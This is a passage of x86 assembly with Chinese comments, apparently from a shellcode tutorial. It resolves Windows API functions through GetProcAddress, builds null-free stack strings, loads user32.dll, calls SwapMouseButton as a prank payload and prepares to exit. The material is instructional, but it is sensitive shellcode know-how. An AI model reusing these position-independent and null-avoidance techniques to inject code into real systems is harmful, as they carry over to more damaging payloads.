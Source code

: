 ```assembly
add esi, ebx
mov edx, [esi+ecx*4]    ;x86指针长度为4字节，因此偏移量=索引*4
add edx, ebx            ;最后一步，相对地址+基地址得到绝对地址

;调用GetProcAddress寻找LoadLibraryA
push ebx                ;备份之前找了半天的基地址（kernel32.dll的）
push edx                ;以及也找了半天的函数地址
xor ecx, ecx
push ecx                ;别忘了字符串最后需要终止符\0
push 0x41797261 		;"Ayra"
push 0x7262694c 		;"rbiL"
push 0x64616f4c 		;"daoL" 
push esp                ;esp中是栈顶指针的地址，所以push esp将把字符串的起始地址当作参数压进栈里
push ebx                ;hModule=kernel32.dll的基地址
call edx                ;edx中是之前找到的函数地址

;调用LoadLibraryA加载user32.dll
add esp, 0x0c
pop ecx                 ;把\0也清掉，还能顺便用它把ecx置零
push eax                ;调用函数前记得备份通用寄存器
push ecx                ;\0
mov cx, 0x6c6c          ;把"ll"整进ecx里。用cx可以避免0x0，因为oprand是四个字节。
push ecx                ;把"ll"压进栈
push 0x642e3233         ;"d.23"
push 0x72657375         ;"resu"
push esp                ;老办法
call eax                ;相当于调用LoadLibrary("user32.dll") 

;调用GetProcAddress寻找SwapMouseButton
add esp, 0x10           ;清理掉栈字符串
mov edx, [esp + 0x4]
xor ecx, ecx		
push ecx			                ;\0
mov ecx, 0x616e6f74	                ;"anot"
push ecx    
sub dword ptr[esp+0x3], 0x61        ;通过减法把充位置的a变成0x0
push 0x74754265 		            ;"tuBe"
push 0x73756F4D 		            ;"suoM"
push 0x70617753 		            ;"pawS"
push esp;			    
push eax;			                ;user32.dll的基地址
call edx;			                ;等价于GetProcAddress(user32.BaseAddress, SwapMouseButton)

;调用SwapMouseButton
add esp, 0x14               ;重置栈顶指针
xor ecx, ecx
inc ecx                     ;制造一个true
push ecx                    ;入参
call eax                    ;调用SwapMouseButton

;调用GetProcAddress寻找ExitProcess
add esp, 0x4                    ;重置栈顶指针，这一次只用移四个字节，因为上个函数没有字符串只有一个bool参数
pop edx                         ;把之前备份的GetProcAddress放到edx里，因为是最后一次用所以直接pop
pop ebx                         ;同理
mov ecx, 0x61737365             ;"asse"
push ecx
sub dword ptr [esp+0x3], 0x61   ;和之前一样的方法把a变成\0
push 0x636f7250                 ;"corP"
push 0x74697845                 ;"tixE"
push esp
push ebx                        ;kernel32.dll的基地址
call edx                        ;相当于调用GetProcAddress(kernel32.BaseAddress, "ProcessExit")

```